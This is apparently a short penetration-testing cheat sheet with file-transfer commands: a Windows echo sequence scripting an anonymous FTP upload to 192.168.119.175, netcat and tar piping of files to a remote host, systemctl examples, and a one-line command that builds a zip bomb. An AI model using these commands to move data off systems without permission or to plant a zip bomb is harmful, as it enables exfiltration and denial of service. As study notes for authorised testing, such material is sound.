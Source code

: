 ```
echo open 192.168.119.175 21> ftp.txt
echo USER anonymous>> ftp.txt
echo.>> ftp.txt
echo bin >> ftp.txt
echo PUT x >> ftp.txt
echo bye >> ftp.txt
```

# NetCat File Transfer:
nc is basically a built-in tool from any UNIX-like systems (even embedded systems), so it's perfect for "quick and temporary way to transfer files".
open a listen on port 12345, waiting for data.
## Step 1, on the receiver side, run:
```
nc -l 12345 | tar -xf -
```

## Step 2, on the sender side:
```
tar -cf - ALL_FILES_YOU_WANT_TO_SEND ... | nc $RECEIVER_IP 12345
```
### Alternate Step 2
#### You can also put pv in the middle to monitor the progress of transferring:
```
tar -cf - ALL_FILES_YOU_WANT_TO_SEND ...| pv | nc $RECEIVER_IP 12345
```
After the transferring is finished, both sides of nc will quit automatically, and job done.

# systemctl
using "systemctl enable" instead if "service * start" means the service will automatically start after reboot. 

### Examples:
```
systemctl enable postgresql
systemctl enable ssh 
systemctl disable ssh
```
# Zip Bomb:
```
dd if=/dev/zero bs=1M count=1024 | zip -9 > bomb.zip
```
# Bitsadmin
